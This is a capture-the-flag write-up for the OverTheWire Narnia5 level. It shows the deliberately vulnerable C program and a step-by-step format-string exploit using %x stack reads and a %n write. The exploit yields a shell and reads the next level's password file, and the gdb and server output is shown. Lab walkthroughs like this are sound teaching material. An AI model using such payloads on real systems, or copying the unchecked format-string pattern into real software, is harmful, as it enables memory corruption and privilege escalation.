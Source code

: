 #Narnia5

narnia.labs.overthewire.org

**Username:** narnia5
**Password:** see [narnia4](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Naria4)
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Just running the program provides us a little bit of a hint.
>
>```
# ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffb60dbc)
>```
>
> Peeking at the code we see:
>
>```C
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.
>
    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.
>
    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
> 
int main(int argc, char **argv){
	int i = 1;
	char buffer[64];
>
	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");
>
	if(i==500){
		printf("GOOD\n");
		system("/bin/sh");
	}
>
	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
>```
> 
> Ok, looks like we need to manipulate the value of ```i```.  There is a lot of ```printf``` usage.  Let's try some basic string format entries.
>
>```
# ./narnia5 %x%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f76b9960ffb1f4e6] (16)
i = 1 (0xffb1f50c)
>```
>
> Looks like the right track.  Let's see if we can find our way back up the stack to our input.
>
>```
(gdb) run $(python -c 'print "AAAA"')%x%x%x%x%x%x%x
Starting program: /root/narnia5 $(python -c 'print "AAAA"')%x%x%x%x%x%x%x
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7ed8960ffffd4c6f7e86315ffffd4c7414141416465376630363938] (60)
i = 1 (0xffffd4ec)
[Inferior 1 (process 7402) exited normally]
(gdb) run $(python -c 'print "AAAA"')%x%x%x%x%x
Starting program: /root/narnia5 $(python -c 'print "AAAA"')%x%x%x%x%x
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAf7ed8960ffffd4c6f7e86315ffffd4c741414141] (44)
i = 1 (0xffffd4ec)
[Inferior 1 (process 7399) exited normally]
>```
>
> Looks like we have to read 5 times before we get back to our input.  They are already giving us the location of ```i``` as ```0xffffd4ec```, so we should be able to move directly into trying to overwrite the value.  To do this we'll use the ```%n``` format as it ```writes the number of bytes written so far```.  We can specify the address to change by inserting it at the begining of our input and using ```%x``` to get back to it.  Then all we need to do is insert the correct number of bytes and we should be able to overwrite ```i``` with the value ```500```.
>
>```
(gdb) run $(python -c 'print "\xec\xd4\xff\xff"')%08x%08x%08x%08x%n
Starting program: /root/narnia5 $(python -c 'print "\xec\xd4\xff\xff"')%08x%08x%08x%08x%n
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7ed8960ffffd4c6f7e86315ffffd4c7] (36)
i = 36 (0xffffd4ec)
>```
>
> By switching to ```%n``` we can see that we change the value of ```i``` from 1 to 36 so everything appears to be working as expected.  Let's go straight for 500.
>
>```
[Inferior 1 (process 7340) exited normally]
(gdb) run $(python -c 'print "\xec\xd4\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Starting program: /root/narnia5 $(python -c 'print "\xec\xd4\xff\xff"+"A"*464')%08x%08x%08x%08x%n
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] (63)
i = 1 (0xffffd31c)
[Inferior 1 (process 7344) exited normally]
>```
>
> Padded 464 ```A``` to make a total of 500, but it looks like our address for ```i``` has moved.  Let's update that address and try the same payload.
>
>```
(gdb) run $(python -c 'print "\x1c\xd3\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Starting program: /root/narnia5 $(python -c 'print "\x1c\xd3\xff\xff"+"A"*464')%08x%08x%08x%08x%n
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
Change i's value from 1 -> 500. GOOD
# whoami
root
>```
>
> That looks better.  We are in gdb on the local box.  Let's go see if we can reproduce this on the server.
>
>```
narnia5@melinda:/narnia$ ./narnia5 $(python -c 'print "\x1c\xd3\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] (63)
i = 1 (0xffffd50c)
>```
>
> Address for ```i``` changed again.  We know what to do.
>
>```
narnia5@melinda:/narnia$ ./narnia5 $(python -c 'print "\x0c\xd5\xff\xff"+"A"*464')%08x%08x%08x%08x%n
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
**********
$ 
>```
>
> Man that never gets old.  On to narnia6.
